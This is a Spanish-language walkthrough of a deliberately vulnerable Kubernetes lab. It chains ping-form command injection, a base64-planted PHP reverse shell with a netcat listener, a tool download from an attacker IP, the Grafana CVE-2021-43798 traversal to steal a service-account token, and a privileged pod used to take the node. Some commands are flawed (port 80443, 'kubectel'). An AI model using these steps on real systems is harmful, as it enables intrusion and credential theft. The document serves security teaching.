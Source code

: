 # Solución del laboratorio

## Reconocimiento de la página web
Tras deplegar el laboratorio, obtenemos al dirección de una página web donde se puede hacer ping a distintas direcciones.

![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/ping%20web.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/ping%20web.png)

Como se está ejecutando el comando ping, comprobamos si se puede saltar los filtros para poder leer información del sistema(Path Traversal), por ejemplo:
```bash 
google.com;ls -l
``` 
![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/web_lfi.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/web_lfi.png)

## LFI a RCE

Como se puede observar en la imagen anterior, la página puede ser vulnerable a LFI. Por ello intentaremos transformar el LFI a RCE a través de una reverse shell con PHP, modificando la IP y el puerto donde vamos a escuchar con netcat con nuestra máquina. Nuestro objetivo es conseguir escribir un archivo dentro del sistema al cual accediendo se lanza una shell en nuestra máquina que está escuchando. Más información del proceso en [php-reverse-shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell). Pasos: 

1. Cambiamos la IP y el puerto y basemos el archivo php-revshell.php a base64. 
```bash 
base64 php-revshell.php 
``` 

2. Ejecutamos este comando el la web (utilizando como IP la 192.168.1.131 y el puerto 80443):
```bash 
google.com;echo "<php-revshell.php in base64>" | base64 -d > shell.php
``` 

3. Verificamos que se ha subido el archivo shell.php: 
```bash
google.com;ls -l 
```
![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/googlecom_ls.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/googlecom_ls.png)

4. Ahora en nuestra máquina escuchamos por el puerto que hemos definido en el archivo php, en este caso el 80443: 
``` bash
nc -lvp 80443
```
5. Una vez escuchando en el puerto, ejecutamos el comando:
```bash
curl http://<ip-web>:<puerto-web>/shell.php
```
Conseguimos la reverse shell del pod donde se está ejecutando el servicio web. 

![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/revshell.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/revshell.png) 

## Reconocimiento en el pod

Una vez dentro hacemos un reconocimiento en el pod: 
1. Verificamos si podemos crear otros pods, para ello pasamos un binario de kubectl desde nuestra máquina creando un servidor web con python (recomendable copiar el bianrio en el archivo /tmp y ejecutar el comando ahí): 
```bash 
python3 -m http.server
``` 

Descargamos el binario y damos permisos de ejecución: 
```bash
wget 192.168.1.131:8000/kubectl
chmod +x kubectl
``` 
Verificamos si es posible la creación de pods:
```bash
./kubectl auth can-i create pods
``` 
![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/no_can-i%20create%20pods.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/no_can-i%20create%20pods.png)

2. Como no se puede crear pod vemos si hay otros servicios corriendo en el nodo. 
```bash 
env 
```
![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/env.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/env.png)

Vemos que hay un servicio Grafana corriendo en 10.103.238.75:3000. Buscamos la versión de Grafana para buscar posibles vulnerabilidades.

``` bash 
apk add curl
curl http://10.103.238.75:3000/login | grep version 
```
![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/grafana_version.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/grafana_version.png)

## Grafana Path Traversal

1. Buscamos posibles vectores de ataque. La versión de Grafana es la "8.3.0-beta2", la cual es vulnerable a Path Traversal, es decir, podemos leer archivos del pod de Grafana. La vulnerabilidad esta clasificada con [CVE-2021-43798](https://www.exploit-db.com/exploits/50581). Aprovechando la vulnerabilidad de Grafana podemos leer el JWT del serviceaccount de Grafana, para ver si en este caso es posible crear pods con dicho token. Creamos una variable de entorno llamada token donde se encuentra el JWT del pod de Grafana.

``` bash 
wget http://10.103.238.75:3000/public/plugins/alertGroups/../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token
export token=$(cat token)
``` 
![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/token_env.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/token_env.png) 

2. Comprobamos si el posible crear pods con el token de Grafana: 

``` bash 
./kubectl auth can-i create pods --token=$token
``` 
![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/yes_can-i.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/yes_can-i.png)

## Escalar al nodo de Minikube

Como es posible crear pods, para escalar al nodo, es posible crear un [badpods](https://github.com/BishopFox/badPods) para escalar al nodo de Minikube.  Este es el YAML que utilizaremos: [bad-pod.yaml](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/kube-lab/lab-pentest/bad-pod.yaml).

1. Copiamos el archivo en la el pod del servicio web, esto lo podemos hacer igual que antes con el servidor python, utilizando los comandos:

``` bash 
wget 192.168.1.131:8000/bad-pod.yaml ./kubectl apply -f bad-pod.yaml --token=$token
```

2. Vemos que se ha creado es nuevo pod:

``` bash
./kubectel get pods --token=$token
```

![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/create%20bad-pod.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/create%20bad-pod.png)

3. Una vez su status esté en Running, ejecutamos el comando siguiente y obtenemos la shell del nodo.

```bash
./kubectl exec -it everything-allowed-exec-pod --token=$token -- sh
```

![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/final_node.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/final_node.png)


Dentro de la shell de un nodo Minikube, se puede realizar diversas operaciones para gestionar y monitorear clústeres Kubernetes locales. Utilizando comandos como kubectl para interactuar con tus aplicaciones y recursos en el clúster, por ejemplo, desplegar y escalar aplicaciones, ver logs, y ejecutar comandos en contenedores. 